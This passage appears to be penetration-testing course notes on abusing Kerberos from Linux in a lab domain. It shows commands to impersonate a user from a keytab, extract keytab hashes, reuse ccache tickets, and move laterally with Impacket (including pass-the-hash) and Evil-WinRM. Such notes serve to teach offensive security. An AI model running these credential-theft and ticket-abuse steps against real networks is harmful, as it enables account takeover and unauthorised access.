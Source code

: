 The first thing we can do is impersonate a user using kinit. To use a keytab file, we need to know which user it was created for. klist is another application used to interact with Kerberos on Linux.

**Listing KeyTab file information**
````
$ klist -k -t /opt/specialfiles/carlos.keytab
````
**Impersonating a user with a KeyTab**
````
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
````

**KeyTab Extract**

The second method we will use to abuse Kerberos on Linux is extracting the secrets from a keytab file. We were able to impersonate Carlos using the account's tickets to read a shared folder in the domain, but if we want to gain access to his account on the Linux machine, we'll need his password.

````
- Extracting KeyTab hashes with KeyTabExtract -
$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
````

**Abusing KeyTab ccache**
````
- Importing the ccache file into our current session -
# export KRB5CCNAME=<ticket>
# klist
````


### Using Linux attack tools with Kerberos

````
Setting the KRB5CCNAME environment variable
$ export KRB5CCNAME=<ticket>
````

**Impacket**

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option -k. If we get a prompt for a password, we can also include the option -no-pass.
````
$ impacket-wmiexec dc01 -k
````

We can issue tickets with impacket-getTGT using the following command:
````
$ impacket-getTGT <domain>/<user> -dc-ip <DC-IP> -hashes :<hash>
$ impacket-getTGT <domain>/<user> -dc-ip <DC-IP>
````

**Evil-WinRM**

To use evil-winrm with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called krb5-user.
````
$ sudo apt-get install krb5-user -y

$ cat /etc/krb5.conf
[libdefaults]
        default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = dc01.<domain>
    }

$ evil-winrm -i dc01 -r <domain>
````
